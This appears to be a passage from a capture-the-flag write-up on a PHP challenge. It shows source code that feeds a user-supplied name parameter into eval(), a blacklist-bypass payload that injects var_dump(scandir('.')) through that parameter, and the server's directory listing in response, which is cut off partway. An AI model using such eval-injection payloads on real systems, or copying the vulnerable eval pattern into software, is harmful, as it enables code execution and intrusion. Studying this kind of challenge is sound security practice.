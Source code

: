 ```php
      align-items: center;
    }

    @media (max-width: 768px) {
      body {
        background-size: contain;
      }
    }
  </style> 
</head>
<body>
  <?php
    
   $str = "echo \"<div style='position: fixed; top: 0; left: 0;'><p style='font-size: x-large; color: white;'>Hello " . $name . "!!!</p></div>\";";

    eval($str);
  ?>
</body>
</html>
```

you can notice that we have a `$name` parameter and it must be less than 36 in length, and if our payload do not have any of the commands in the `$dangerousFunctions` array , the payload will be passed to `eval`function.

in this part i was not able to bypass this blacklist , but after a lot of research i found out i can use `var_dump()` and `scandir()` to list the files in the directory.

Payload :

> [http://34.18.3.149:8000/xchal.php?name=](http://34.18.3.149:8000/xchal.php?name=)"%26%26+var_dump(scandir('.'));%23
> 

Response :

```php
<!DOCTYPE html>
<html>
<head>
 <style>
    body {
      background-image: url("x.webp");
      background-repeat: no-repeat;
      background-size: cover;
      background-position: center center;
      height: 100vh;
      margin: 0;
      display: flex;
      justify-content: center;
      align-items: center;
    }

    @media (max-width: 768px) {
      body {
        background-size: contain;
      }
    }
  </style> 
</head>
<body>
  array(6) {
  [0]=>
  string(1) "."
  [1]=>
```